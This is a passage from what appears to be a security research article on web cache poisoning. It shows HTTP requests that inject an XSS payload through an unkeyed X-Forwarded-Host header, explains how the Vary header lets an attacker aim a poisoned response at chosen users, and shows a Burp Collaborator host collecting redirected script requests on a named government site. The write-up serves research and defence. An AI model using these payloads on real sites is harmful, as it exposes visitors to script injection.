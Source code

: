  We have an unkeyed input - the X-Host header – being used to  generate a script import. The response headers 'Age' and 'max-age'  respectively specify the age of the current response, and the age at  which it will expire. Taken together, these tell us the precise second  we should send our payload to ensure our response gets cached. 

### Selective Poisoning

 HTTP headers can provide other time-saving insights into the inner  workings of caches. Take the following well-known website, which is  using Fastly and sadly can't be named: 

``````http
GET / HTTP/1.1
Host: redacted.com
User-Agent: Mozilla/5.0 … Firefox/60.0
X-Forwarded-Host: a"><iframe onload=alert(1)>

HTTP/1.1 200 OK
X-Served-By: cache-lhr6335-LHR
Vary: User-Agent, Accept-Encoding
…
<link rel="canonical" href="https://a">a<iframe onload=alert(1)>
</iframe> 
``````

 This initially looks almost identical to the first example. However, the Vary header tells us that our User-Agent may be part of the cache  key, and manual testing confirms this. This means that because we've  claimed to be using Firefox 60, our exploit will only be served to other Firefox 60 users. We could use a list of popular user agents to ensure  most visitors receive our exploit, but this behaviour has given us the  option of more selective attacks. Provided you knew their user agent,  you could potentially tailor the attack to target a specific person, or  even conceal itself from the website monitoring team. 

### DOM Poisoning

Exploiting an unkeyed input isn't always as easy as pasting an XSS payload. Take the following request: 

``````http
GET /dataset HTTP/1.1
Host: catalog.data.gov
X-Forwarded-Host: canary

HTTP/1.1 200 OK
Age: 32707
X-Cache: Hit from cloudfront 
…
<body data-site-root="https://canary/">
``````

We've got control of the 'data-site-root' attribute, but we can't break  out to get XSS and it's not clear what this attribute is even used for.  To find out, I created a match and replace rule in Burp to add an  'X-Forwarded-Host: id.burpcollaborator.net' header to all requests, then browsed the site. When certain pages loaded, Firefox sent a  JavaScript-generated request to my server: 

``````http
GET /api/i18n/en HTTP/1.1
Host: id.burpcollaborator.net
``````
